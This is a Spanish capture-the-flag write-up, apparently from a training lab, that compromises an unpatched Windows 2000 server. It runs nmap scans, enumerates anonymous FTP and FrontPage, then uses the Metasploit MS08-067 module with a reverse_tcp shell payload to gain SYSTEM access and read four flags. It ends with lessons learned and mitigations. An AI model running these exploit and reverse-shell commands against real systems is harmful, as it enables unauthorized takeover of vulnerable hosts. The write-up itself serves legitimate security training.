## Información General

| Campo           | Valor       |
| --------------- | ----------- |
| **Plataforma**  | whoami-labs |
| **Dificultad**  | Fácil       |
| **Autor**       | elc0ket     |

## Resumen del Ataque

Máquina Windows 2000 Server sin parchear, con dos vulnerabilidades críticas de ejecución remota de código en el servicio SMB: **MS08-067** (CVE-2008-4250) y **MS17-010 / EternalBlue** (CVE-2017-0143). Se confirmó mediante scanner auxiliar que el sistema, al ser Windows 2000 x86, no era compatible con el exploit estándar de EternalBlue, por lo que se explotó exitosamente con **MS08-067**, obteniendo una shell remota con privilegios de `NT AUTHORITY\SYSTEM`. Se localizaron 4 flags repartidas en distintas rutas del sistema de archivos.

## Técnicas Usadas

- Escaneo de puertos y servicios con Nmap (`-p-`, `-sC -sV`)
- Enumeración de vulnerabilidades con NSE (`--script vuln`)
- Conexión FTP anónima
- Identificación de FrontPage Server Extensions (FPSE)
- Explotación de vulnerabilidad SMB con Metasploit Framework
- Detección de incompatibilidad de payload/arquitectura (EternalBlue vs Windows 2000)
- Pivote a exploit alternativo (MS08-067)
- Post-explotación: búsqueda de archivos con `dir /s /b`

## Desarrollo

### 1. Escaneo inicial de puertos


```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn 192.168.241.146
```

Se identificaron 18 puertos abiertos, entre ellos SMB (139, 445), RDP (3389), LDAP (389, 636, 3268) y servicios web (80, 443).




### 2. Escaneo detallado de versiones y scripts

```bash
nmap -p 7,9,13,17,19,21,25,42,53,80,88,119,135,139,389,443,445,464,515,548,563,593,636,1027,1028,1030,1034,1040,1055,1056,1062,1069,1070,1109,1148,3268,3269,3372,3389,9316 -sC -sV -oN allports 192.168.241.146
```








Resultados clave:

- **FTP (21)**: Microsoft ftpd 5.0, con **login anónimo permitido**
- **SMTP (25)**: Microsoft ESMTP 5.0.2195.6713, revela nombre NetBIOS `CORPORAT-1373CB` y dominio `test.com`
- **HTTP (80)**: Microsoft IIS 5.0, con métodos peligrosos habilitados (`TRACE`, `PUT`, `DELETE`, `MOVE`)
- **SMB (445)**: confirma Windows 2000
- **LDAP (389, 3268)**: Active Directory, dominio `test.com`

### 3. Conexión FTP anónima

```bash
ftp 192.168.241.146
```



Se confirmó acceso anónimo pero el directorio raíz no contenía archivos listables.

### 4. Enumeración web (FrontPage)

Se accedió a `http://192.168.241.146/postinfo.html`, revelando configuración de FrontPage Server Extensions y confirmando el hostname interno `corporat-1373cb`.



### 5. Escaneo de vulnerabilidades con NSE

```bash
nmap --script vuln -p- 192.168.241.146
```




Se confirmaron dos vulnerabilidades críticas:

|CVE|Nombre|Riesgo|Servicio|
|---|---|---|---|
|CVE-2008-4250|MS08-067|CRÍTICO|SMB (445)|
|CVE-2017-0143|MS17-010 (EternalBlue)|CRÍTICO|SMB (445)|

### 6. Verificación de MS17-010 con Metasploit


```bash
msfconsole -q
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.241.146
run
```



**Hallazgo importante**: Windows 5.0 corresponde a **Windows 2000**, versión no soportada por el exploit estándar `ms17_010_eternalblue` (diseñado para XP/2003/Vista/7/2008).
### 7. Explotación con MS08-067

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 192.168.241.146
set payload windows/shell/reverse_tcp
set LHOST 192.168.241.128
run
```



**Nota**: el primer intento con payload `windows/meterpreter/reverse_tcp` resultó en una sesión inestable ("Meterpreter session is not valid"). Se cambió a `windows/shell/reverse_tcp`, un payload más ligero, obteniendo una shell estable de `cmd.exe`.

### 8. Búsqueda de flags en el sistema

```cmd
C:\WINNT\system32>dir C:\ /s /b | findstr /i flag
```



### 9. Lectura de las flags

```
type C:\Shares\IT\flag1.txt
```



```
type C:\Shares\Backup\flag2.txt
```



```
type C:\Shares\Admin\flag3.txt
```



```
type "C:\Documents and Settings\Administrador\Mis documentos\Flag.txt"
```



**Nota**: la ruta `Mis documentos` requiere comillas dobles en `cmd.exe` debido a los espacios en el nombre de la carpeta.

**Flag completa: `W2K{v1nt4g3_l3g4cy_pwn3d_Y2K}`**

## Lecciones Aprendidas

- No todos los exploits de una misma familia de vulnerabilidad son intercambiables: **EternalBlue no soporta Windows 2000**, a pesar de que el sistema era técnicamente vulnerable a MS17-010. Es fundamental verificar la arquitectura y versión exacta del SO antes de lanzar un exploit.
- Cuando Meterpreter falla en el staging, probar con un payload más simple (`windows/shell/reverse_tcp`) ayuda a descartar problemas de red vs. problemas de compatibilidad del stage.
- El acceso FTP anónimo y archivos de configuración expuestos (como `postinfo.html` de FrontPage) pueden filtrar información valiosa de reconocimiento (hostname interno, estructura del dominio) incluso sin ser el vector de explotación final.
- Mantener siempre varias vías de explotación identificadas (en este caso, dos CVEs de SMB) permite pivotar rápidamente si la primera opción falla.

## Medidas de Mitigación

- Aplicar los parches de seguridad **MS08-067** y **MS17-010** de inmediato, o actualizar a un sistema operativo con soporte activo (Windows 2000 lleva sin soporte desde 2010).
- Deshabilitar **SMBv1** por completo en todos los sistemas, ya que es el vector de ambas vulnerabilidades críticas.
- Deshabilitar el **acceso FTP anónimo**.
- Eliminar o restringir el acceso a los archivos de configuración de **FrontPage Server Extensions** (`postinfo.html`, `_vti_bin/`), ya que exponen información interna innecesaria.
- Deshabilitar métodos HTTP peligrosos (`TRACE`, `PUT`, `DELETE`, `MOVE`, `COPY`) en el servidor IIS si no son requeridos.
- Segmentar la red para que sistemas legacy sin soporte no sean accesibles desde redes no confiables.

